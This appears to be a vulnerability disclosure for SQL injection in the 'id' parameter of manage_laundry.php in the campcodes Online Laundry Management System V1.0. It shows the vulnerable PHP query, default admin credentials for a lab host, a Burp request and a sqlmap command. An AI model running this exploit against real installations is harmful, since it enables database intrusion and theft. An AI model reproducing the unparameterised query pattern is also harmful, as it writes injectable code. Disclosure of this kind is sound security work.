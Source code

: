 ## Online Laundry Management System

## SQL Injection on `/manage_laundry.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_laundry.php
```

The potential injection point is located in `manage_laundry.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# /manage_laundry.php
if(isset($_GET['id'])){
	$qry = $conn->query("SELECT * FROM laundry_list where id =".$_GET['id']);
	foreach($qry->fetch_array() as $k => $v){
		$$k = $v;
	}

}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_laundry.php?id=6 HTTP/1.1
Host: 192.168.150.131
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Referer: http://192.168.150.131/index.php?page=laundry
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close
```

```
python3 sqlmap.py -r 1.txt -p id --current-user --batch --dbms mysql
```

**Screenshot**

![image-20240510170957378](./screenshot/image-20240510170957378.png)
